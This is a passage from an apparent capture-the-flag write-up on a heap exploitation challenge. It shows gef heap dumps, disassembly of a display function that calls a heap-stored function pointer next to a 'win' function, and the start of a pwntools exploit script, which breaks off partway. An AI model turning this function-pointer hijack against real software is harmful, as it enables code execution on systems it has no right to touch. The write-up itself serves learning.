 ```
0x55e909e09270:	0x000055e909de7226	0x0000000000000000
0x55e909e09280:	0x0000000000000000	0x0000000000000021
0x55e909e09290:	0x3030303030303030	0x3030303030303030
0x55e909e092a0:	0x0000000030303030	0x0000000000020d61
0x55e909e092b0:	0x0000000000000000	0x0000000000000000
0x55e909e092c0:	0x0000000000000000	0x0000000000000000
0x55e909e092d0:	0x0000000000000000	0x0000000000000000
0x55e909e092e0:	0x0000000000000000	0x0000000000000000
0x55e909e092f0:	0x0000000000000000	0x0000000000000000
0x55e909e09300:	0x0000000000000000	0x0000000000000000
0x55e909e09310:	0x0000000000000000	0x0000000000000000
0x55e909e09320:	0x0000000000000000	0x0000000000000000
0x55e909e09330:	0x0000000000000000	0x0000000000000000
gef➤  x/i 0x000055e909de7226
   0x55e909de7226 <display_string>:	push   rbp
```
If I also look at the display function, I can see that the display_string function is called because it is the function pointed to at this heap address; the contents of rax+10 are that heap address, those contents are loaded into rdx, and rdx is called.
```
 → 0x55e909de7653 <display+32>     mov    rdx, QWORD PTR [rax+0x10]
   0x55e909de7657 <display+36>     mov    rax, QWORD PTR [rbp-0x8]
   0x55e909de765b <display+40>     mov    rdi, rax
   0x55e909de765e <display+43>     mov    eax, 0x0
   0x55e909de7663 <display+48>     call   rdx
   0x55e909de7665 <display+50>     add    DWORD PTR [rbp-0xc], 0x1
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "chall_patched", stopped 0x55e909de7653 in display (), reason: SINGLE STEP
───────────────────────────────────────────────────────────────────── trace ────
[#0] 0x55e909de7653 → display()
[#1] 0x55e909de7769 → main()
────────────────────────────────────────────────────────────────────────────────
gef➤  x/gx $rax+0x10
0x55e909e09270:	0x000055e909de7226
gef➤  x/i win
   0x55e909de7680 <win>:	push   rbp
```
Here is the script so far to get these outputs:
```
from pwn import *

target = process('./chall_patched', env={"LD_PRELOAD":"./libc-2.28.so"})

pid = gdb.attach(target, "b *display+32\nb *create_variable+314\n set disassembly-flavor intel\ncontinue")

#target = remote('host.cg21.metaproblems.com', 3150)

elf = ELF('chall')


def create_string(length, content):

	print(target.recvuntil(b'5. Exit'))
	target.sendline(b'1')
	print(target.recvuntil(b'What type would you like?'))
	target.sendline(b'1')
	print(target.recvuntil(b'like your string to be'))
	target.sendline(str(length))
	print(target.recvuntil(b'data'))
	target.sendline(content)

def edit_char(index, character):
	print(target.recvuntil(b'5. Exit'))
```